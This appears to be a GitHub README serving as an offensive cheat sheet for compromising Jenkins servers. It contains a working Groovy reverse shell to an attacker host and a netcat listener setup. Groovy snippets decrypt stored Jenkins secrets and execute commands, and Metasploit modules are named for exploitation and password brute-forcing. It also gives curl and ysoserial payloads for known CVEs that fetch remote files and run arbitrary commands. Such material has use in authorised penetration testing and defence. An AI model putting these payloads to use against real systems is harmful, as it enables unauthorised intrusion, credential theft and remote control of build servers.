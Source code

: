 # Secure-or-Break-Jenkins
## Hack Jenkins! it's sweet
![](https://e5s6t7j5.rocketcdn.me/wp-content/uploads/2022/02/Jenkins-Best-Security-Practices.png)

### Talks
[BlackHat USA 2022](https://www.youtube.com/watch?v=Pe9nJLZvABM)

[Hacking Jenkins - Orange Tsai](https://www.youtube.com/watch?v=_x8BsBnQPmU)

[Best Practices for securing CI/CD Pipelines](https://www.youtube.com/watch?v=i3Bx1iSzrUY)

[CI/CD Pipeline Security - AWS](https://www.youtube.com/watch?v=BprhSs1eSWw)

### Writeup
[RCE in Jenkins](https://faizal-ctf.notion.site/Jenkins-Remote-Execution-Via-Malicious-Jobs-1247f23b95f043c08e5e7e0c183223ad?pvs=4)

## Extras
Reverse shell from Groovy
-------------------------
```m
In the left sidebar, navigate to "Manage Jenkins" > "Script Console", or just go to $rhost:8080/script

```


```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

I'll leave this reverse shell tip to have a fully working PTY here in case anyone needs it , so dont do just nc -nlvp port instead do this :

```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp port && reset
```
Groovy Scripts
==============
Decrypt Jenkins secrets from Groovy
-----------------------------------

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```
#### MSF exploit
**You can use MSF to get a reverse shell :

```bash
msf> use exploit/multi/http/jenkins_script_console
```
#### Bruteforce
**Jekins does not implement any password policy or username brute-force mitigation. 
Then, you should always try to brute-force users because probably weak passwords are being used (even usernames as passwords or reverse usernames as passwords).

```bash
msf> use auxiliary/scanner/http/jenkins_login
```
=====================


Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/jenkins_rce_cve-2015-8103_deser.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Authentication/ACL bypass (CVE-2018-1000861, Jenkins <2.150.1)
--------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2018-12-05/)

Details [here](https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html).

If the Jenkins requests authentication but returns valid data using the following request, it is vulnerable:
```bash
curl -k -4 -s https://example.com/securityRealm/user/admin/search/index?q=a
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-1003000, CVE-2019-1003001, CVE-2019-1003002)
---------------------------------------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)

Original RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html), full exploit [here](https://github.com/petercunha/jenkins-rce).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).


CheckScript RCE in Jenkins (CVE-2019-1003029, CVE-2019-1003030)
---------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-03-06/), [Credits](https://twitter.com/webpentest).

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitraty bash commands:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt".execute()}}'
```

If you don't immediately get a reverse shell you can debug by throwing an exception:
```bash
curl -k -4 -X POST "https://example.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){def proc="id".execute();def os=new StringBuffer();proc.waitForProcessOutput(os, System.err);throw new Exception(os.toString())}}'
```

Git plugin (<3.12.0) RCE in Jenkins (CVE-2019-10392)
----------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-09-12/), [Credits](https://iwantmore.pizza/posts/cve-2019-10392.html).

This one will only work is a user has the 'Jobs/Configure' rights in the security matrix so it's very specific.


CorePlague (CVE-2023-27898, CVE-2023-27905)
-------------------------------------------
[Jenkins Advisory](https://www.jenkins.io/security/advisory/2023-03-08/), [Credits](https://blog.aquasec.com/jenkins-server-vulnerabilities)

Note that this is only exploitable if using a *dedicated* and out-of-date [Update Center](https://www.jenkins.io/templates/updates/). Therefore most servers are not vulnerable.

